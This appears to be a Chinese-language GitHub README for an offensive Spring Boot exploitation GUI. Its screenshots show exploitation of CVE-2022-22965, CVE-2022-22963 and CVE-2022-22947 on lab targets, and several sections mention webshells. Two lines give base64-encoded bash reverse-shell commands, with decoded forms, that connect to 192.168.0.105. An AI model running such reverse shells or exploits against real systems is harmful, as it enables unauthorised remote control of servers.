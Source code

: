 # SpringBoot-Scan-GUI by 13exp

Windows:<br> 
python SpringBoot-Scan-GUI.py<br>
直接执行release文件夹内exe程序<br>
<br>
Linux:<br>
python3 SpringBoot-Scan-GUI-Linux.py<br>
wine SpringBoot-Scan-GUI.exe<br>
<br>
Win使用效果图<br>
CVE-2022-22965<br>
vulhub<br>
![image](https://user-images.githubusercontent.com/73600604/218236128-21bf37e5-e8c2-45de-9f9e-50fbe8ad1574.png)
![image](https://user-images.githubusercontent.com/73600604/218236233-68986684-4698-46d0-a36e-d95d37a2620b.png)
![image](https://user-images.githubusercontent.com/73600604/218236243-0d6b2eb4-6b2d-4c88-91ea-be4a5760675d.png)
<br>内置shell
![image](https://user-images.githubusercontent.com/73600604/218236608-102b9342-1f92-4268-88de-9f35c5de22ce.png)
<br>aabysszg-shell
![image](https://user-images.githubusercontent.com/73600604/218236258-348c30f4-7a5e-43e9-8f12-0f4eb1f27e99.png)
<br>13exp-shell
![image](https://user-images.githubusercontent.com/73600604/218236580-097727c0-cd79-47bc-af8a-3b509324ec3e.png)
春秋云境<br>
![image](https://user-images.githubusercontent.com/73600604/218236469-833740d2-b754-46d8-848d-89236f5ec72b.png)
<br>内置shell
![image](https://user-images.githubusercontent.com/73600604/218236715-9815addd-2502-4e6c-a11c-5ccd054a57ac.png)
<br>13exp-shell
![image](https://user-images.githubusercontent.com/73600604/218236734-655bcfe4-0eac-433d-aa66-07ad51af9fbb.png)
<br>aabysszg-shell
![image](https://user-images.githubusercontent.com/73600604/218236497-11401635-b171-4536-9faa-f431324612a9.png)
![image](https://user-images.githubusercontent.com/73600604/218236516-71dae6a1-3f59-459c-82c8-b49c3d191f6c.png)
CVE-2022-22963<br>
vulhub<br>
准备反弹shell<br>
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjAuMTA1Lzg4ODggMD4mMQ==}|{base64,-d}|{bash,-i} || (Base64)<br>
编码内容→bash -i >& /dev/tcp/192.168.0.105/8888 0>&1<br>
kali监听<br>
![image](https://user-images.githubusercontent.com/73600604/218240588-a377065e-c4fc-403c-950d-0e688b7e446c.png)
漏洞利用<br>
![image](https://user-images.githubusercontent.com/73600604/218240553-009588c6-be8f-4bbd-9fe8-d3e8cc001795.png)
![image](https://user-images.githubusercontent.com/73600604/218240609-246afc87-e671-4565-bf68-f3dda7360961.png)
春秋云境<br>
![image](https://user-images.githubusercontent.com/73600604/218236995-3ac37c9f-f7e6-478a-a72d-f7951c547047.png)
CVE-2022-22947<br>
vulhub<br>
同样准备反弹shell<br>
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjAuMTA1Lzg4ODkgMD4mMQ==}|{base64,-d}|{bash,-i} || (Base64)<br>
编码内容→bash -i >& /dev/tcp/192.168.0.105/8889 0>&1<br>
kali监听<br>
![image](https://user-images.githubusercontent.com/73600604/218240722-f36a7ac5-b2c3-4043-9b9e-54be43052799.png)
漏洞利用<br>
![image](https://user-images.githubusercontent.com/73600604/218240756-52bb0691-bcbe-4057-b502-716d86aa2a1d.png)
![image](https://user-images.githubusercontent.com/73600604/218241387-1c6b9198-3e76-434b-8a8d-96533613cd26.png)
春秋云境<br>
![image](https://user-images.githubusercontent.com/73600604/218237116-b3897e7c-2c88-45c6-97ad-276c3e7be052.png)

